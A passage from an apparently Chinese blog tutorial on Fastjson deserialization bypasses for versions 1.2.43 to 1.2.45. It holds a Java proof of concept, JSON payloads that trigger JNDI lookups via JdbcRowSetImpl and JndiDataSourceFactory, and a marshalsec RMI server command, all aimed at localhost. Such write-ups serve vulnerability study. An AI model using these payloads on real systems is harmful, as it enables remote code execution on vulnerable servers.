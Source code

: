     import java.sql.SQLException;
    
    public class fastjonTest2 {
        public static void main(String[] args) {
    
     /*       JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
            try {
                jdbcRowSet.setDataSourceName("ldap://localhost:1389/#EXP");
                jdbcRowSet.setAutoCommit(true);
            } catch (SQLException throwables) {
                throwables.printStackTrace();
            }*/
    
    
            String exp = "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{,\"dataSourceName\":\"ldap://localhost:1389/EXP\", \"autoCommit\":true}" ;
    
    
            ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
            JSON.parseObject(exp);
        }
    }
    
    

### 2.4、Fastjson:1.2.44

对`[`进行限制

![image-20220414150518037](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173314260-1474266558.png)

### 2.5、Fastjson:1.2.45

利用条件需要目标服务端存在mybatis的jar包，且版本需为3.x.x系列<3.5.0的版本。

    <dependency>
      <groupId>org.apache.ibatis</groupId>
      <artifactId>ibatis-core</artifactId>
      <version>3.0</version>
    </dependency>
    

用的是rmi服务

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://localhost:8000/#EXP 1099
    

![image-20220414151702839](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173315206-541577251.png)

**poc**

    //需要有第三方组件ibatis-core 3:0
    {"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://localhost:1099/Exploit"}}
    
    
    

    package com.akkacloud.demo;
    